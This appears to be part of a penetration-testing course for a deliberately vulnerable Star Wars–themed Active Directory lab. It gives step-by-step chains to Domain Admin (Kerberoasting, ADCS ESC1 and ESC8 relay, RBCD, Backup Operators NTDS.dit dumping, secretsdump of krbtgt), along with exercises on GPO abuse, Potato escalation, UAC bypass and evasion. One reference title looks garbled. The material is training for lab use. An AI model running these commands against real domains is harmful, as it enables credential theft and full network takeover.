Cross-tier escalations are the most common attack paths:

- Tier 2 → Tier 1: lateral with shared local-admin password, RBCD via MAQ, kerberoast a Tier-1 service account.
- Tier 1 → Tier 0: ESC1/ESC8 on ADCS, DCSync via ACL drift, Backup Operators member on DC, AdminSDHolder backdoor.

The defender's job is to break the chain at the tier boundary. Each ACL drift across a boundary is a finding.

---

## 11.20 Practical chains — five worked examples

### Chain A: peter.parker → DA via Kerberoast

```
1. peter.parker has any-user creds → BloodHound
2. Kerberoast svc_jarvis → hashcat → SqlServer123!
3. svc_jarvis is DA (EMPIRE seeds this) → impacket-secretsdump krbtgt
```

### Chain B: peter.parker → DA via ESC1

```
1. peter.parker → BloodHound → "VulnerableESC1" template
2. certipy req with -upn administrator@empire.local
3. certipy auth → Administrator NT hash
4. impacket-secretsdump → krbtgt
```

### Chain C: peter.parker → DA via Coerce + ESC8

```
1. peter.parker → BloodHound → ESC8 vuln on endor
2. ntlmrelayx -t http://endor/certsrv/ --adcs --template DomainController
3. PetitPotam coruscant → relay → cert for coruscant$
4. certipy auth → coruscant$ NT hash
5. impacket-secretsdump krbtgt
```

### Chain D: peter.parker → DA via Backup Operators (gMSA pivot)

```
1. peter.parker → GenericWrite on Backup-Readers group
2. Add peter.parker to Backup-Readers
3. gMSADumper.py → svc_r2d2$ NT hash (svc_r2d2 is Backup Operators)
4. evil-winrm to DC as svc_r2d2 → reg save SAM SYSTEM NTDS.dit
5. impacket-secretsdump LOCAL → krbtgt
```

### Chain E: peter.parker → DA via RBCD chain (PE/LAT mix)

```
1. peter.parker → BloodHound → GenericWrite on scarif$
2. impacket-addcomputer EVIL$
3. impacket-rbcd write scarif$ ← EVIL$
4. impacket-getST -spn cifs/scarif -impersonate Administrator
5. Admin on scarif → mimikatz → tony.stark hash
6. tony.stark is local admin on coruscant → PTH
7. reg save NTDS → secretsdump → krbtgt
```

Practice all five. They cover 80% of real engagements.

---

## Lab exercises

### Exercise 11.A — PTH lateral spray

```bash
impacket-secretsdump -hashes :<NT_admin> 'empire.local/Administrator@10.10.0.13'
nxc smb 10.10.0.0/21 -u Administrator -H <NT> --local-auth
```

Document which hosts the local-admin hash works on. Hypothesise why (golden-image leakage).

### Exercise 11.B — DCSync from Backup Operators

Get a Backup Operators member's password from CRED-001 or CRED-007. Log into DC via WinRM (Backup Operators can WinRM). Run:

```powershell
reg save HKLM\SAM C:\Users\Public\sam.save
reg save HKLM\SYSTEM C:\Users\Public\system.save
robocopy /b C:\Windows\NTDS C:\Users\Public ntds.dit
```

Exfil and parse with secretsdump LOCAL mode.

### Exercise 11.C — RBCD attack

Same as §10.7. Take the second pass — does the flow click?

### Exercise 11.D — GPO abuse

Pick a GPO you have write on (BloodHound: "GenericWrite on GPO"). Use SharpGPOAbuse to add a logon script that creates a new admin user. Wait, verify.

### Exercise 11.E — Potato chain

On kamino, gain SQL `sa` (chapter 10). Via xp_cmdshell, drop PrintSpoofer. Escalate to SYSTEM. Mimikatz LSASS. Document the privileges of the resulting SYSTEM shell.

### Exercise 11.F — UAC bypass on tatooine

Land as a local admin on tatooine (with split token). Use fodhelper bypass to get an elevated PowerShell. Confirm `whoami /priv | findstr -i debug` shows SeDebugPrivilege enabled (high IL).

### Exercise 11.G — LOLBin lateral

Use only LOLBins (no impacket scripts) to laterally move peter.parker → tony.stark on scarif. Document each step.

### Exercise 11.H — Cross-tier path

Map the full path peter.parker (Tier-2 user) → DA (Tier-0). Identify every tier boundary you cross and whether it would have been blocked by tiered admin model + LAPS + signing.

### Exercise 11.I — Quietest psexec alternative

For the same "execute `whoami /all` as Administrator on coruscant", show:

- psexec event footprint (7045, 4697).
- wmiexec event footprint (4688 with wmiprvse parent).
- atexec event footprint (4698).
- evil-winrm event footprint (4624 LogonType 3 + 4688 wsmprovhost child).
- Pure LOLBin (Invoke-Command).

Rank by stealth.

### Exercise 11.J — ACL escalation through three steps

Set up a deliberately convoluted ACL: `developer1` → WriteSPN on tony.stark (or use the lab's built-in `developer1` → ForceChangePassword on `nick.fury`, and `nick.fury` → WriteOwner on Domain Admins). Use bloodyAD to:

1. Take ownership of tony.stark.
2. Grant peter.parker GenericAll on tony.stark.
3. Reset tony.stark's password.
4. As tony.stark, add peter.parker to Domain Admins.

---

## Self-check questions

1. What's the difference between psexec.py and wmiexec.py in event log footprint?
2. When does `--local-auth` matter for NetExec?
3. What's the precondition for PrintSpoofer to escalate?
4. Why does DnsAdmins effectively grant DC code execution?
5. What's the difference between Backup Operators and Server Operators for DC compromise?
6. How does AdminSDHolder enable persistence and escalation simultaneously?
7. What does GenericWrite on a user object grant in practice (list 3 follow-on attacks)?
8. Why does evil-winrm need a properly configured `krb5.conf` for Kerberos but not for NTLM?
9. What's the difference between SeImpersonate and SeAssignPrimaryTokenPrivilege?
10. JuicyPotato stopped working on Server 2019+. What changed in Windows that broke it?
11. Why is `MachineAccountQuota=0` enough to break the RBCD chain even if GenericWrite remains?
12. Which event ID would best detect SharpGPOAbuse's AddImmediateTask variant?
13. Why is wmiexec "fileless" — what about it makes that label accurate or misleading?
14. The Potato family relies on a SYSTEM-thread NTLM auth. Why does Server 2019+ Spooler still cooperate after the JuicyPotato fix?
15. Why does `runas /netonly` not change `whoami` output but does change network behaviour?
16. What's the simplest LOLBin to download a payload — and why might it still trigger AMSI?
17. Why does "Backup Operators on DC" win even if NTDS.dit access is denied at the filesystem level?
18. Print Operators can load drivers — why does this give SYSTEM rather than just "Print Operators"?
19. What field on a computer object would you set to immediately get Kerberos+SPN coverage for kerberoast follow-up?
20. Why do real engagements often prefer atexec over psexec, even though they both leave events?

---

## References

- **harmj0y — *Abusing empire-Mifflin-Active-Directory ACLs/ACEs*** — the primary reference.
- **0xdf — *Lateral Movement: WMI* / *WMIExec*** — protocol-level reading.
- **antonioCoco — *RoguePotato*, *PrintSpoofer*** — modern Potato chain.
- **Microsoft Docs — *Privileged Groups*** — what each operator group can do.
- **PayloadsAllTheThings — *Active Directory Attack*** — wide PE/LAT catalogue.
- **LOLBAS** project — `lolbas-project.github.io`.
- **dirkjanm — *Abusing GPO* / *SharpGPOAbuse*** — practical GPO abuse.
- **SpecterOps — *Death Star* and *DeathStarV2*** — full automation reference.

Next: [12-persistence-and-forest.md](12-persistence-and-forest.md).

---

# The EMPIRE AD Lab: Star Wars Lore & Thematic Mapping

Welcome to the **EMPIRE AD Lab**, where the intricacies of Active Directory align with the galactic struggle between the Galactic Empire, the Rebel Alliance, and the shadow syndicates. This section provides a conceptual thematic mapping between the AD concepts you are attacking and the Star Wars universe.

## The Galactic Topology

The lab topology represents the political structure of the galaxy. Just as trust relationships govern AD, diplomatic and military alliances govern the galaxy.

```mermaid
graph TD
    classDef empire fill:#000000,stroke:#ff0000,stroke-width:2px,color:#fff;
    classDef rebel fill:#2b5c8f,stroke:#ff9900,stroke-width:2px,color:#fff;
    classDef trade fill:#4a4a4a,stroke:#aaaaaa,stroke-width:2px,color:#fff;
    classDef highlight fill:#440000,stroke:#ff0000,stroke-width:3px,color:#fff;

    subgraph The Galactic Empire (empire.local)
        Coruscant["Coruscant (Root DC)<br/>coruscant.empire.local"]:::empire
        DeathStar["The Death Star (Child DC)<br/>deathstar.eu.empire.local"]:::highlight
        Scarif["Scarif Citadel (File Server)<br/>scarif.empire.local"]:::empire
        Kamino["Kamino Cloning Facility (SQL)<br/>kamino.empire.local"]:::empire
        Endor["Endor Shield Generator (CA)<br/>endor.empire.local"]:::empire
        Mandalore["Mandalore Mercenary Base (Linux)<br/>mandalore.empire.local"]:::empire
        Coruscant -- "Imperial Command" --> DeathStar
        Coruscant --- Scarif
        Coruscant --- Kamino
        Coruscant --- Endor
        Coruscant --- Mandalore
    end

    subgraph The Rebel Alliance (rebel.local)
        Yavin4["Yavin 4 Base<br/>yavin4.rebel.local"]:::rebel
    end

    subgraph The Trade Federation (trade.corp)
        Neimoidia["Cato Neimoidia<br/>neimoidia.trade.corp"]:::trade
    end

    Coruscant <-->|Espionage / External Trust| Yavin4
    Coruscant <-->|Treaty / Forest Trust| Neimoidia
```

## Infrastructure Mapping

Understanding the infrastructure is key to successfully executing your attack paths. Here is how the technical components of the EMPIRE AD lab map to the Star Wars universe:

### 1. The Core Domains
* **`empire.local` (The Galactic Empire):** The central root domain. This is the seat of the Emperor and the Imperial Senate. Taking over this domain is equivalent to taking over Coruscant. It controls all the core infrastructure.
* **`eu.empire.local` (The Death Star):** A child domain of `empire.local`. While it reports to the root domain, it holds immense power. Escaping the child domain to compromise the root domain is the equivalent of using the Death Star plans to destroy the Empire.
* **`rebel.local` (The Rebel Alliance):** An external forest. It has an external trust with the Empire (perhaps through espionage or captured spies). Moving laterally across this trust requires finding a weak link in the Rebel defenses.
* **`trade.corp` (The Trade Federation):** A separate forest with a bidirectional forest trust. The Empire uses them for resources, but you can forge trust tickets (Inter-Realm TGTs) to cross this boundary.

### 2. High-Value Targets (Servers)
* **`coruscant.empire.local` (Coruscant Root DC):** The ultimate prize. Achieving Domain Admin here gives you the keys to the galaxy.
* **`endor.empire.local` (Endor Shield Generator / ADCS):** Active Directory Certificate Services. If you can compromise the CA (via ESC1, ESC8, etc.), you can forge certificates for any user in the Empire, effectively bringing down the deflector shields.
* **`scarif.empire.local` (Scarif Citadel):** This file server hosts critical SMB shares. It is the repository of the Death Star plans. Look for exposed passwords in scripts or configuration files left by careless Imperial engineers.
* **`kamino.empire.local` (Kamino Facility):** The SQL Server. SQL injection or xp_cmdshell here can lead to a foothold. It represents the cloning facilities—a hidden source of power.
* **`mandalore.empire.local` (Mandalore Base):** The Linux-in-AD member. Contains local privilege escalations and cross-OS pivot opportunities. Represents the mercenary faction employed by the Empire.

### 3. Attack Paths and Tactics
* **Initial Access (The Smuggler's Route):** Finding an exposed SMB share or exploiting an LLMNR poisoning vulnerability (Responder) is like slipping past the Imperial blockade.
* **Kerberoasting (Bounty Hunting):** Requesting TGS tickets for service accounts and cracking them offline is like putting a bounty on a high-value target and cracking their encryption.
* **DCSync (The Force):** Using `secretsdump` to pull the `krbtgt` hash directly from the Domain Controller. It's an invisible, powerful attack that bypasses normal defenses.
* **Golden Ticket (Order 66):** Once you have the `krbtgt` hash, you can forge a TGT for any user, granting you infinite access. It is the ultimate executive order, overriding all security protocols.
* **Trust Abuse (Diplomatic Immunity):** Forging a trust ticket to cross from the Child Domain to the Root Domain.

## The Hacker's Code (Sith vs Jedi)
As you navigate the lab, remember that the tools you use define your path. Will you use noisy, aggressive tools (The Dark Side) that trigger every alarm, or will you use stealthy, precise tradecraft (The Light Side) to move undetected?

* **The Dark Side (Noisy):** Running `BloodHound` with all collection methods, spraying passwords across the entire domain, and dropping standard Mimikatz binaries to disk. It is powerful and fast, but leaves a massive trail.
* **The Light Side (Stealthy):** Targeted LDAP queries, memory-only execution via Covenant or Cobalt Strike, and careful evasion of logging (AMSI bypasses, ETW patching).

## Flag Locations (Holocrons)
Hidden throughout the EMPIRE AD lab are flags (Holocrons) that prove your mastery over the environment. Look for `FLAG-*.txt` files on desktops, hidden SMB shares, and within the SQL databases. 

**Remember:** 
* "Your focus determines your reality." - Qui-Gon Jinn. Focus on the attack paths mapped out in `PLAN.md`.
* "I find your lack of faith disturbing." - Darth Vader. If an exploit fails, check your syntax, your targeting, and the underlying misconfiguration. The lab is intentionally vulnerable.

May the Force be with you as you conquer the EMPIRE AD!
